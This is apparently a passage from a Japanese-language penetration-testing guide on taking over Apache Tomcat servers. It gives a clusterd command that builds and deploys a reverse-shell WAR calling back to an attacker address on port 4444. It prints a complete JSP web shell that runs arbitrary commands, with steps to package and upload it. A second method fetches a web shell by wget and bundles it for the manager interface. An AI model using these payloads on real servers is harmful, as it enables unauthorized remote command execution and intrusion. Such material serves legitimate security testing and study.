 ```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```
### 手動方法 - Webシェル

**index.jsp**をこの[コンテンツ](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp)で作成します:
```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```
この（アップロード、ダウンロード、コマンド実行を許可します）をインストールすることもできます: [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)

### 手動方法 2

[JSPウェブシェル](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp)のようなものを取得し、WARファイルを作成します:
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp
# When this file is uploaded to the manager GUI, the /backup application will be added to the table.
# Go to: http://tomcat-site.local:8180/backup/cmd.jsp
```
## POST
